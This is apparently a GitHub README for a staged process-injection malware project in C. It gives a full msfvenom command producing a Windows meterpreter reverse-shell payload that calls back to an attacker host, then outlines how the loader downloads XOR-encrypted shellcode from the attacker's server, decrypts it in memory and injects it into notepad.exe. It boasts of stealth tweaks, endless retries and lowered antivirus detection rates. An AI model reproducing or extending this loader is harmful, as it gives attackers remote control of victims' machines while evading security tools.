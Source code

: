# Staged-Process-Injection-C
## Staged Process Injector with obfuscation Techniques including the Native API and offsets
### STAGE 0 ---> preparation

- Generatad payload with msfvenom
    
        msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.13 LPORT=123 -f raw exitfunc=thread -o clear_code.bin

- Then I wrote a C program to XOR encrypt the bin file and write it out to an another file called "enc_code.bin"
    
### STAGE 1 --> connecting to HTTP server

- The malware connects to the attacker's HTTP server and downloads the encrypted shellcode "enc_code.bin".

- The encrypted shellcode is downloaded in memory.

### STAGE 2 --> Decryption

- It utilizes XOR decryption to decrypt the shellcode "enc_code.bin" in memory

### STAGE 3 --> Process Injection

- Then it enumerates all the processes in the system and searches for notepad.exe (you can change that in the enum_processes() function).

- The malware then injects the decrypted shellcode into the target process.


### EXECUTION

- I commented out most the printf statements to make it stealthier, you can uncomment them in the code and see the details.


    - ![image](https://github.com/user-attachments/assets/6867d463-5a04-4c9d-9bbb-2328c46dc667)

    - ![image](https://github.com/user-attachments/assets/28c4c66f-8a0e-42fd-b72f-fdc567b911d5)

    - ![image](https://github.com/user-attachments/assets/b2b62806-0478-4f2d-ad48-92ee4f27932e)


### VirusTotal Analysis

- ![image](https://github.com/user-attachments/assets/dd34426d-d677-40fb-9864-1f6025d225e7)

### Updated (5th Feb 2025)

- I added the Native equivalant of CreateMutexA which are NtOpenMutant and NtCreateMutant.

- Also, I enhanced the http stage to be called infinitely if the server wasn't listening, ensuring that the malware never exits till it downloads the shellcode (enc_code.bin)

- The Native API Mutex enhancment decreased the detection rates from 7/72 to 5/72 in VirusTotal

- ![image](https://github.com/user-attachments/assets/12938834-6402-4ed8-910e-10a1e642d7cc)

